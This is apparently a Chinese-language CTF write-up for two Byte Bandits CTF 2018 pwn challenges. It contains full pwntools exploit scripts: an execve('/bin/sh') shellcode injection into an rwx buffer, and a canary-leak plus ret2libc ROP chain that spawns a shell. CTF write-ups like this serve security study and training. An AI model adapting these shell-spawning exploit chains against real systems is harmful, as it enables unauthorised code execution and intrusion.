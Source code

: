 ```yaml
---
layout:		post
title:		Byte Bandits CTF 2018部分writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```


- 目录
{:toc #markdown-toc}

>[索引目录]  
>0x001 ROP Crazy  
>0x002 Tale of a Twisted Mind  
<!-- more -->


## 0x001 ROP Crazy

程序开辟了0x1000的rwx内存空间，并将
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-001.png)

首地址被打印出来了
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-002.png)

再读8 byte，明显不够放入shellcode，做rop修改读入长度为0xff byte
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-003.png)

exp.py
```
from pwn import *

context.arch = "amd64"

s = process("./gg")
elf = ELF("./gg")

sh_addr = int(s.recvline(),16)

s.recv(0x1000)

s.send(p64(sh_addr))

p = asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
""")

s.send(p)

p = "\x90"*0xc8
p += asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
mov rbx,0x0068732f6e69622f
push rbx
push rsp
pop rdi
xor rsi,rsi
push rsi
pop rdx
push rdx
pop rax
mov al,0x3b
syscall
mov al,0x3c
xor rdi,rdi
syscall
""")

s.send(p)
s.interactive()
```


## 0x002 Tale of a Twisted Mind

首先需要绕过bot detected
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-001.png)

只是一个简单计算，但要重复312次
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-002.png)

还要绕过canary
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-003.png)

看下程序流程，似乎没有info leak漏洞
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-004.png)

再看看远程，似乎有点不同
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-005.png)
远程的程序是patched过的，直接把canary给我们了

猜测是把该处patched成dword_804AA28
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-006.png)

exp.py
```
from pwn import *

context.log_level = "debug"

#r = remote("34.218.199.37", 6000)
s = process("./twisted_patched", env={"LD_PRELOAD":"./libc.so.6"})
elf = ELF("./twisted_patched")
libc = ELF("./libc.so.6")

def debug(addr):
    raw_input('debug:')
    gdb.attach(s, "b *" + addr)

for i in xrange(312):
	question = s.recvuntil("\n").split("=")[0]
	answer  = eval(question)
	print question, answer
	s.sendline(str(answer))

puts_plt = elf.plt["puts"]
printf_got = elf.got["printf"]
fgets_buff = 0x08048979
bss = 0x804aa58

system_off = libc.symbols["system"]
printf_off = libc.symbols["printf"]
binsh_off = libc.search("/bin/sh").next()

s.recvuntil("Bot Verification Complete!\n")
canary = u32(s.recv(4))
log.info('canary: %#x' % canary)

s.recv(1)
s.send("1")
p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(puts_plt)
p += p32(fgets_buff)
p += p32(printf_got)

s.sendline(p)
printf_addr = u32(s.recv(4))

libc_base = printf_addr - printf_off
system_addr = system_off + libc_base
binsh_addr = binsh_off + libc_base

p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(system_addr)
p += p32(fgets_buff)
p += p32(binsh_addr)

s.sendline(p)
s.interactive()
```